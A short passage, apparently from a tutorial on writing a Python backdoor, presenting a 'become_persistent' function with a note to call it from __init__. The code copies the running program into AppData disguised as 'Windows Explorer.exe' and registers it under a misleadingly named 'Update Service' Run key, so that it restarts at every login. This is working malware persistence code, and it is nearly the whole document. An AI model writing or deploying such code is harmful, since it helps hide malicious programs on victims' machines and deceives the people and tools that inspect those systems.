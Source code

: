 # In code it can look likes this:
<pre>
<code>
def become_persistent(self):
    evil_file_location = os.environ["appdata"] + "\\Windows Explorer.exe"
    if not os.path.exists(evil_file_location):
        shutil.copyfile(sys.executable , evil_file_location)
        subprocess.call(f'REG ADD HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Update Service /t REG_SZ /d "{evil_file_location}"')
</code>
</pre>
* We need to call this function in __init__